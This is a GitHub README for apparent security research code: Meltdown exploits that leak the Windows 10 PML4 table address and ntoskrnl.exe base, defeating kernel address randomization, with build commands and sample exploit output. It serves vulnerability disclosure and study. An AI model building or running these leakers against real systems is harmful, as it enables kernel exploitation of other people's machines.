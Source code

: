 
# Meltdown KVA Shadow Leak

This repository contains the Windows Meltdown exploits described in the blog post [Meltdown Reloaded: Breaking Windows KASLR by Leaking KVA Shadow Mappings](https://labs.bluefrostsecurity.de/blog/2020/06/30/meltdown-reloaded-breaking-windows-kaslr/), which can be used to leak the PML4 table address and the "ntoskrnl.exe" base address in the latest "Windows 10" versions (RS7 and 20H1).

## Build Instructions

Using the Visual Studio 64-bit command line compiler, just follow the steps bellow:

For compiling the PML4 leaker:
- Execute `cl.exe pml4leak-melt.c`

For compiling the NT leaker:
- Execute `cl.exe ntleak-melt.c`

## Output examples

PML4 table address leaker output example:

```
C:\Users\Public>pml4leak-melt.exe

[+] Leaking PML4...
 [+] Try 0/10
[+] Elapsed time: 16 ms
[+] PML4: fffff178bc5e2000 (entry 1e2)

C:\Users\Public>
```

NT base address leaker output example in targets with RAM memory equal or higher than 4GB:

```
C:\Users\Public>ntleak-melt.exe
[+] Win10 build number: 19041
[+] RAM detected: 4GB

[+] Leaking PML4...
 [+] Try 0/10
[+] Elapsed time: 15 ms
[+] PML4: fffff178bc5e2000 (entry 1e2)

[+] Leaking NT base address...
 [+] PML4 entry found: fffff178bc5e2f80 (entry 0x1f0)
  [+] PDPT entry found: fffff178bc5f0000 (entry 0x0)
   [+] PD entry found: fffff178be0003e8 (entry 0x7d)
   [+] PD entry found: fffff178be000518 (entry 0xa3)
    [+] PT entry found: fffff17c000a3108 (entry 0x21)

[+] NT base delta: 0xa21000
[+] NT POINTER: 0xfffff80014621000
[+] NT BASE: 0xfffff80013c00000

[+] Elapsed time: 141 ms
[+] NT base address: 0xfffff80013c00000 (entry 0xa3)

C:\Users\Public>
```

